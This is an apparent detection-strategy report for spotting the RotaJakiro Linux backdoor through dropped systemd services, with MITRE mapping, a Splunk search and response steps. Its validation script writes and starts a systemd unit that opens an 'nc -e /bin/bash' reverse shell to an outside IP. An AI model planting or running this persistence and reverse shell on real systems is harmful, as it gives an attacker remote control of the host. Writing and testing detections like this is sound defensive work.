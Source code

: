 RotaJakiro ADS Report
=========================
**Author:** *Aidan Border*

## Goal

Detect attempts to install the RotaJakiro backdoor on Linux hosts by looking for a dropped `systemd` services.

## Categorization

These attempts are categorized under [Persistence / Create or Modify System Process / Systemd service](https://attack.mitre.org/techniques/T1543/002).

## Strategy Abstract
Strategies for defending against this threat should go as follows:

* Use endpoint monitoring and protection tooling to monitor services or processes running on a Linux host.
* Look for specific service names or processes known to be used by RotaJakiro
  * sys-temd-agent.service
  * gvfsd-helper
  * systemd-daemon
* Fire an alert if any of these processes are found on the system.

## Technical Context

Most modern Linux systems use a project called `systemd` as their init system and services manager. `systemd` services are background programs that run to support different functionality. An example of a program that runs as a service is `sshd`, the OpenSSH Server daemon.

There are two directories that `systemd` will look for services in. 

1. System-wide services are located in /etc/systemd/system/services.
2. Services that run when a user logs in are located in ~/.config/systemd/user.

A `systemd` service can technically be used to automatically launch any software on the system. Threat actors can use this to auto-launch malicious software, such as starting a keylogger when a privileged user logs in to attempt to siphon administrator credentials to the system. It is important to note that a keylogger targeting X.Org is very easy to write. Installing a user-level service to log every keystroke to a file would be relatively easy given a way to run a shell script.

## Blind Spots and Assumptions

We assume the system uses systemd. Linux systems using other methods of init are not applicable for the ADS discussed here.

We assume RotaJakiro is running as root. If the backdoor is running as a normal user, it makes use of XDG Autostart (under a graphical environment) or .bashrc for users running without a desktop environment.

Unix systems, such as FreeBSD, do not use systemd. As such, the strategy discussed here is not applicable to those systems.

## False Positives

This alert may cause false positives for systems running the GNOME Desktop Environment if the backdoor is running without root privileges, as the backdoor masquerades as gvfsd, or the GNOME Virtual File System daemon.

## Validation

### Validating the Detection
Validation can be performed by executing the provided shell script to generate a systemd service in the /etc/systemd/system directory.

```bash
echo "[Unit]" > /etc/systemd/system/sys-temd-agent.service
echo "Description=Atomic Red Team Systemd Service" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Service]" >> /etc/systemd/system/sys-temd-agent.service
echo "Type=simple"
echo "ExecStart=nc -e /bin/bash 192.168.100.191 9001" >> /etc/systemd/system/sys-temd-agent.service
echo "ExecStop=echo haha youve been pwned" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Install]" >> /etc/systemd/system/sys-temd-agent.service
echo "WantedBy=graphical.target" >> /etc/systemd/system/sys-temd-agent.service
systemctl daemon-reload
systemctl enable sys-temd-agent.service
systemctl start sys-temd-agent.service
```

The detection should alert on the generated systemd service.

An example detection alerts on the following search in Splunk: 

```
host="rocky-detection-test" sourcetype="journald" sys-temd-agent.service
```

![Splunk screenshot showing the example rule](https://github.com/ABeeinSpace/ADS-Report/assets/48869372/43f90beb-e214-474b-a89e-94b386ef7956)


This search will alert every time the sys-temd-agent.service string appears in the journald log, so it is quite noisy right now.

> Note:
> For this example search to work, a Splunk Universal Forwarder must be configured to ship journald logs on the target system to Splunk. Additionally, threat detection engineers should adapt the "host" and "sourcetype" fields to their environment. The "host" field pulls from the target system's hostname. "rocky-detection-test" is probably not valid in your environment.

### Cleanup

Detection engineers may clean up from validating the detection against their environment by doing the following steps:

On the test system:
1. Disable the sys-temd-agent.service using `systemctl`.
2. Remove the sys-temd-agent.service file from the filesystem.
3. Execute `systemctl daemon-reload` to tell systemd that the services defined on the system have changed.
4. If it was set up for this test, remove the Splunk Universal Forwarder from the system (Using the RPM package, it will be installed in the `/opt/splunkforwarder` directory by default).

On the Splunk instance:
1. Remove any alerts defined in the Search and Reporting app.
2. If it was set up specifically for this test, remove the receiving rule from Settings > Forwarding and receiving > Configure receiving.
3. If a separate index was used for this test, remove the index from your Splunk Enterprise or Splunk Cloud environment.

## Priority

Since this is a backdoor with a variety of features, any true positive alerts fired from this detection are set to high.

## Response

The following steps should be taken immediately upon a true positive alert:
  * Remove the system from the network.
  * Disable the systemd service using `systemctl` to prevent it from running at boot, then stop the service. Alternatively, the system can simply be restarted. 
    * Depending on the security requirements of your environment, you may consider deleting the service file from the filesystem.
  * Kill the systemd-daemon binary if it is actively running.
    * Again, depending on your environment, the binary can be removed now as well.
  * Escalate to a security incident after the immediate threat has been removed.

## Additional Resources

DELETE BEFORE SUBMISSION: [GitHub Markdown Reference ](https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax#links)


[^1]: Shell script originally published by [Atomic Red Team](https://atomicredteam.io/privilege-escalation/T1543.002/#atomic-test-1---create-systemd-service). I removed the templates and added the path to the systemd service location and name of the systemd service.

[^2]: [Arch boot process - Arch Wiki](https://wiki.archlinux.org/title/Arch_boot_process)

[^3]: [MITRE ATT&CK - Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)

[^4]: [RotaJakiro: A long live secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)

[^5]: [Backdoor.Linux.ROTAJAKIRO.A](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/backdoor.linux.rotajakiro.a/) 

[^6]: [Palantir ADS Framework Blog Post](https://blog.palantir.com/alerting-and-detection-strategy-framework-52dc33722df2) 
